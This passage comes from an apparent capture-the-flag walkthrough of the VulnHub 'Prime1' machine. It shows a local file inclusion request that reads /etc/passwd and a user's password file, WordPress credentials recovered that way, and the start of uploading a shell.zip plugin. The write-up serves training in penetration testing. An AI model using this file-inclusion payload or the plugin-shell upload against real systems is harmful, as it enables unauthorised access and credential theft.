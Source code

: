 hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
</html>

GET /image.php?secrettier360=/home/saket/password.txt HTTP/1.1
Host: 192.168.1.237
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Tue, 25 May 2021 11:39:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 215
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>follow_the_ippsec
</html>

## Can login with victor:follow_the_ippsec at Wordpress
Lets try a plugin upload

┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# locate shell.zip                                                                                                          
/opt/htb/blocky/shell.zip
/opt/htb/spectra/shell.zip
/opt/thm/wekor/shell.zip
/opt/vulnhub/shenron2/shell.zip
/opt/vulnhub/shenron3/shell.zip
/root/.local/share/Trash/files/shell.zip
/root/.local/share/Trash/info/shell.zip.trashinfo
                                         
┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# cp /opt/vulnhub/shenron2/shell.zip .
                                           
┌──(root💀kali)-[/opt/vulnhub/prime1]
└─# ifconfig     
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.210  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::a00:27ff:fe4a:6d7a  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:4a:6d:7a  txqueuelen 1000  (Ethernet)
        RX packets 14671770  bytes 6921536577 (6.4 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13778458  bytes 2110013880 (1.9 GiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536